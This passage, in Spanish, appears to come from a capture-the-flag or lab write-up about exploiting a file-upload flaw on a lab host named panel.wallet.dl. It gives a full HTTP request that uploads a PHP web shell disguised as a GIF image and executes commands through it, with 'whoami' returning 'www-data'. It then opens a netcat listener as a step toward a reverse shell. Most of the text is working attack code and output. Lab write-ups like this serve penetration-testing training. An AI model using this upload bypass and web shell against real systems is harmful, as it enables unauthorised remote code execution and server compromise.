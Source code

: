 Ahora en la peticion procedemos a envenenarla del manera que quede asi ya con el codigo malicioso inyectamos y enviamos la peticion:
```bash
POST /endpoints/subscription/add.php HTTP/1.1
Host: panel.wallet.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: http://panel.wallet.dl/
Content-Type: multipart/form-data; boundary=---------------------------5955004932855136474046085612
Content-Length: 1752
Origin: http://panel.wallet.dl
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: theme=light; PHPSESSID=e4p79va03obqvdjbk2hsn90hmo; language=es; theme=light
Priority: u=0

-----------------------------5955004932855136474046085612
Content-Disposition: form-data; name="name"

test
-----------------------------5955004932855136474046085612
Content-Disposition: form-data; name="logo"; filename="shell.php"
Content-Type: image/jpeg
GIF89a;
<?php
	system($_GET['cmd']);
?>
```

Una ves cargada el exploit nos indica que tenemos que buscar en esta ruta nuestro archvio malicioso:
```bash
6) Your file will be located in:
http://VICTIM_IP/images/uploads/logos/XXXXXX-yourshell.php
```
### Ejecucion del Ataque
Procedemos a buscar nuestro archivo malicioso, Para ejecutar comandos
```bash
# Comandos para explotación
http://panel.wallet.dl/images/uploads/logos/1752000676-hacked.php?cmd=whoami
```

Tenemos ejecucion remota de comandos de manera exitosa
```bash
GIF89a; www-data
```
### Intrusion
Ahora nos ponemos en Modo escucha
```bash
nc -nlvp 443
```
